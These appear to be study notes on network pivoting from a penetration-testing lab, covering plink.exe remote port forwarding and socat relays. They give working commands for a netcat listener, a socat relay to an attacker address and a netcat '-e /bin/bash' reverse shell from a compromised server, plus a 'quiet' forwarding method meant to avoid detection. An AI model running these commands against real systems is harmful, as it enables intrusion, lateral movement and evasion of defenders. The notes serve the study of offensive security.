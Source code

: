 ## Plink.exe

It is a windows command line version of the PUTTY ssh client . Now windows comes with its own ssh client.

Syntax of command → cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
cmd.exe /c echo y → is for non-interactive shells (like mose reverse-shells).

```
Example ::
we have  access → 172.16.0.5
web server running → 172.16.0.10
command → cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE (id_rsa) -N
```
>Note → any keys generated with ssh-keygen will not work here we need to convert them using puttygen tool
command → puttygen KEYFILE -o OUTPUT_KEY.ppk

* * *

## SOCAT
### Reverse shell Relay ::

On our attacking box     → nc -lvnp 443
On compromised server → ./socat tcp-l:8000 tcp:attacking-ip:443 & 
```
Example :: 
[root@prod-server]# ./socat tcp-l:8000 tcp:10.50.73.2:443 & → listen on  8000 and send traffic to attacker 443
[root@prod-server]# chmod +x ./nc
[root@prod-server]# ./nc 127.0.0.1 8000 -e /bin/bash → here we connect to the server 8000 which will direct it to attacker 443
```
### Forwarding PORT NOISY:: 
compromised server → 172.16.0.5
target server and port → 172.16.0.10:3306
```
command → ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```
This opens up a port 33060 in compromised server and redirects the input from the attacking machine straight to the intended target server giving us access to the port 3306 (maybe MYSQL) running on th target.
* fork → fork in used to put every connection in to the new process
* reuseaddr → means that the port stays open after the connection is made to it.

### Forwarding Port Quiet ::
Previous techinque opens up a port in compromised server which can be noisy and detectable
```
Attacking machine → socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```
open up two port 8001 and 8000 creating a local port relay what goes in to one comes out into another. For this reason port 8000 has fork and reuseaddr to create more than one connection using the port forward
```
Compromised relay server (172.16.0.5) → ./socat tcp:Attacking_ip:8001 tcp:TARGET_IP(172.16.0.10):TARGET_PORT(80),fork &
```
this makes connection between our listening port 8001 on the attacking machine and open port of the target server.
we could go localhost:8000 in our attacking machine web browser to load the webpage served by the target (172.16.0.10:80)
